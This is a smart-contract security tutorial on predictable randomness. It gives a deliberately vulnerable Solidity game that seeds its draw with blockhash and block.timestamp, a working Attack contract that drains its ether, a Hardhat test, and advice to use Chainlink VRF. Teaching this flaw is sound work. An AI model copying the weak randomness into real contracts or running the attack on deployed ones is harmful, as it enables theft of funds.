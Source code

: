 [Randomness](https://www.learnweb3.io/tracks/senior/randomness)

![Randomness](./images/randomness.jpg "Randomness")

## Source of Randomness

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps.

## Requirements

- We will build a game where there is a pack of cards.

- Each card has a number associated with it which ranges from 0 to 2²⁵⁶–1

- Player will guess a number that is going to be picked up.

- The dealer will then at random pick up a card from the pack

- If someone correctly guesses the number, they win 0.1 ETH

- We will hack this game today :)

## Build

> Lets first understand what `abi.encodedPacked` does.

We have previously used `abi.encode` in the Sophomore NFT tutorial. It is a way to **concatenate multiple data types into a single bytes array, which can then be converted to a string**. This is used to compute the tokenURI of NFT collections often. 

`encodePacked` takes this a step further, and **concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values**. What does this mean? 

Let's take `uint256` as an example. `uint256` has `256 bits` in it's number. But, if the value stored is just 1, using `abi.encode` will create **a string that has 255 0's and only 1 `1`**. Using `abi.encodePacked` will **get rid of all the extra 0's, and just concatenate the value `1`.**

- Create a file named as `Game.sol` inside your `contracts` folder and add the following lines of code.

```sh
 // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.4;

  contract Game {
  constructor() payable {}

    /**
        Randomly picks a number out of `0 to 2²⁵⁶–1`.
    */
    function pickACard() private view returns(uint) {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
        return pickedCard;
    }

    /**
        It begins the game by first choosing a random number by calling `pickACard`
        It then verifies if the random number selected is equal to `_guess` passed by the player
        If the player guessed the correct number, it sends the player `0.1 ether`
    */
    function guess(uint _guess) public {
        uint _pickedCard = pickACard();
        if(_guess == _pickedCard){
            (bool sent,) = msg.sender.call{value: 0.1 ether}("");
            require(sent, "Failed to send ether");
        }
    }

    /**
        Returns the balance of ether in the contract
    */
    function getBalance() view public returns(uint) {
        return address(this).balance;
    }
  }
```
- Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

```sh
// SPDX-License-Identifier: MIT
  pragma solidity ^0.8.4;

  import "./Game.sol";

  contract Attack {
      Game game;
      /**
          Creates an instance of Game contract with the help of `gameAddress`
      */
      constructor(address gameAddress) {
          game = Game(gameAddress);
      }

      /**
          attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
          is accessible publically
      */
      function attack() public {
          // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
          // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
          // which is further converted to a `uint`.
          // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
          uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
          game.guess(_guess);
      }

      // Gets called when the contract recieves ether
      receive() external payable{}
  }
```

- How the attack takes place is as follows:

1. The hacker calls the `attack` function from the `Attack.sol`
2. `attack` further guesses the number using the same method as `Game.sol` which is `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
3. Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
4. The attacker then calls the `guess` function from `Game.sol`
5. `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
6. `guess` compares the numbers and they turn out to be the same.
7. `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
8. Attacker is successfully able to guess the random number

- Create a new file named `attack.js` inside the `test` folder and add the following lines of code

```sh
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const _game = await Game.deploy({ value: utils.parseEther("0.1") });
    await _game.deployed();

    console.log("Game contract address", _game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const _attack = await Attack.deploy(_game.address);

    console.log("Attack contract address", _attack.address);

    // Attack the Game contract
    const tx = await _attack.attack();
    await tx.wait();

    const balanceGame = await _game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});
```

- Now open up a terminal pointing to Source-of-Randomness folder and execute this

```sh
npx hardhat test
```

## Preventions

- Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness

- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness







